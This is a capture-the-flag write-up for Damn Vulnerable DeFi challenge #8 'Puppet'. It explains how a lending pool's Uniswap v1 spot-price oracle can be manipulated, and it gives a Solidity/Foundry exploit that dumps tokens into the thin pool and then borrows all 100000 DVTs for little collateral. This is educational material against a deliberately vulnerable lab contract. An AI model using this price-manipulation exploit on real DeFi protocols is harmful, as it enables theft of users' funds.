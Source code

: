 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #8 Solution — Puppet'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-05-23T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #8  —  Puppet

> There’s a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There’s a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/puppet)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet/puppet.challenge.js)

## The attacker end goal

We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.

## Study the contracts

### `PuppetPool.sol`

The contract is compiled with Solidity ^0.8.0, this mean that is not keen to underflow/overflow attacks.

The contract is inheriting from OpenZeppelin ReentracyGuard, and is using `nonReentrant` in the `borrow` function. So, there’s no way to exploit it via a reentrancy attack.

Let’s see the three main functions implemented in the contract:

- `function borrow(uint256 borrowAmount) public payable nonReentrant` allow the user to borrow `borrowAmount` amount of token only if the user pay at least an amount of `ETH` equal to the double of the token price. If the user has paid more than requested, the difference is sent back to the user.

Inside the function there are two checks:

`require(msg.value >= depositRequired, “Not depositing enough collateral”);` that will check that you have sent at least double the amount of ether compared to the amount of token you want to borrow

`require(token.transfer(msg.sender, borrowAmount), “Transfer failed”);` that will check that the tokens borrowed have been correctly sent to the user and that the operation has not failed in the process.

- `function calculateDepositRequired(uint256 amount) public view returns (uint256)` that will calculate the amount of ETH you need to deposit given the amount of tokens you would like to borrow. Math seems to be fine, the order of operations to not incur in meth rounding error is respected.
- `function _computeOraclePrice() private view returns (uint256)` that will calculate the price of the token in the Uniswap V1 exchange DVT-ETH. This price is used by `calculateDepositRequired` to calculate the amount of ether needed to be deposited to borrow the tokens. Also here, the math seems to be fine, the order of operations to not incur in meth rounding error is respected.

Given that there are no underflow/overflow issues, reentrancy is cover and math operations for both `mul` and `div` is correctly ordered, how can we exploit this contract?

Let’s see how the price of a token is calculated. I’m going to merge and rearrange the code in both `calculateDepositRequired` and `_computeOraclePrice` to have a more clear picture:

```solidity
uint256 tokenPrice = uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
uint256 depositRequired = amount * tokenPrice * 2 / 10 ** 18
```

As you can see from the code, we can **manipulate the price of the token** from the oracle function **by manipulating the balance of the Uniswap pool**.

**The price of the token will go down as the balance of the token in the pool will go up.**

All of this is possible just because the pool has just a little liquidity compared to the amount of tokens that we own. As a result, we can manipulate the price of this specific pool.

## Solution code

Let’s look at the attacker code and explain step by step. This is just a part of the test’s code. If you want the full solution, please go to the end of the article and see the GitHub project link.

```solidity
//... imports

contract PuppetTest {

    //... setup

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        uint256 deadline = block.timestamp * 2;

        vm.startPrank(attacker);

        // Approve the exchange for the whole amount of token
        token.approve(address(uniswapExchange), type(uint256).max);

        // Sell token all the token to get ETH
        // Doing this the price of the token will lower and the Pool `_computeOraclePrice` will return a low value
        // Allowing us to borrow at a cheaper price
        uniswapExchange.tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline);

        // Calculate how much we should pay to borrow a token
        uint256 ethToBorrowOneToken = lendingPool.calculateDepositRequired(1 ether);

        // Calc how much we can borrow
        uint256 tokenWeCanBorrow = (attacker.balance * 10 ** 18) / ethToBorrowOneToken;

        // Get the max borrowable tokekns from the pool
        uint256 maxTokenToBorrow = Math.min(token.balanceOf(address(lendingPool)), tokenWeCanBorrow);

        // Borrow all the token draining the pool
        lendingPool.borrow{value: attacker.balance}(maxTokenToBorrow);

        vm.stopPrank();
    }
}
```

1.  Approve the Uniswap exchange to handle all the tokens that we own (up to the infinite)
2.  Sell all the tokens that we own for some ETH. We are not interested to know how much we are going to gain, but currently we know that 1 ETH = 1 DVT. `tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline)` will perform a swap saying: sell all the token and at least I want 1 ETH back (the minimum amount of `tokenOut` we expect). Make the transaction fail if it does not succeed before the specified `deadline`. After the swap, the price of the DVT token calculated by the Oracle inside the Puppet pool will drop. This will mean that for just a little ETH (the collateral) we will be able to borrow all the DVTs that are inside the pool.
3.  We calculate how much ETH as collateral we need to be able to borrow one DVT token
4.  We calculate how much token we can borrow from the pool given the amount of ETH that we have in our balance
5.  We calculate how much we can really borrow (because the pool has a limited amount of DVT token inside, and we know that it would revert if we try to borrow more than the balance)
6.  And we call `lendingPool.borrow` to borrow all the available DVTs

You can find the full solution on GitHub, looking at [PuppetTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/puppet/PuppetTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract PuppetTest -vv`

## Further reading on Oracles and Price manipulation

- “[Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)” by OpenZeppelin
- “[So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)” by samczsun

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
